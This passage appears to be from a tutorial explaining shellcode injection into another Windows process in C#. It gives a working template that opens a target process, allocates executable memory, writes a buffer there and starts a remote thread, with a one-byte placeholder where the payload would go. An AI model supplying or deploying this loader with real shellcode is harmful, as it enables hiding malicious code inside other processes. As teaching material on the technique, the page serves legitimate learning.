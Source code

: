 ```
            int processId);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
            static extern IntPtr VirtualAllocEx(
            IntPtr hProcess,
            IntPtr lpAddress,
            uint dwSize,
            uint flAllocationType,
            uint flProtect);

        [DllImport("kernel32.dll")]
        static extern bool WriteProcessMemory(
            IntPtr hProcess, 
            IntPtr lpBaseAddress, 
            byte[] lpBuffer, 
            Int32 nSize, 
            out IntPtr lpNumberOfBytesWritten);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr CreateRemoteThread(
            IntPtr hProcess,
            IntPtr lpThreadAttributes,
            uint dwStackSize,
            IntPtr lpStartAddress,
            IntPtr lpParameter,
            uint dwCreationFlags,
            IntPtr lpThreadId);

        static void Main(string[] args)
        {
            byte[] buf = new byte[1] {0x00};
            int PID = Int32.Parse(args[0]);
            IntPtr output;
            IntPtr ProcessHandle = OpenProcess(0x001F0FFF, false, PID);
            IntPtr MemAddr = VirtualAllocEx(ProcessHandle, IntPtr.Zero, (uint)buf.Length, 0x3000, 0x40);
            WriteProcessMemory(ProcessHandle, MemAddr, buf, buf.Length, out output);
            CreateRemoteThread(ProcessHandle, IntPtr.Zero, 0, MemAddr, IntPtr.Zero, 0, IntPtr.Zero);

        }
    }
}
```

Now to explain this code.

```
using System.Runtime.InteropServices;
```

This directive is used to utilize Pinvoke
